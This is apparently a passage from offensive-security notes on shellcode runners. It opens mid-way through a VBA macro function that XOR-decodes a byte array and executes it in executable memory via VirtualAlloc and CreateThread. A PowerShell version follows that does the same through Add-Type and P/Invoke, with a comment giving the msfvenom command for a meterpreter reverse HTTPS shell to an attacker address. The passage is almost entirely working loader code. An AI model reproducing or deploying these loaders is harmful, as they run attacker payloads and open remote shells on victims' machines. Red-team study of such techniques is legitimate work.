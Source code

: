 ```vba
  buf = Array(31, 33, ..., 33, 37)

  ' XOR-decrypt the shellcode
  For i = 0 To UBound(buf)
    buf(i) = buf(i) Xor Asc("a")
  Next i

  ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
  ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
```
{% endcode %}




## PowerShell



### Using Add-Type and C\#

C data types to C# data types "translation" can be done with P/Invoke APIs (Platform Invocation Services) at [www.pinvoke.net](http://www.pinvoke.net/) (e. g., [VirtualAlloc](http://www.pinvoke.net/default.aspx/kernel32.VirtualAlloc)).

{% code title="ShellcodeRunnerv1.ps1" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Win32

[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
$size = $buf.Length
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[IntPtr]$addr = [Win32]::VirtualAlloc(0, $size, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle = [Win32]::CreateThread(0, 0, $addr, 0, 0, 0)
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
{% endcode %}
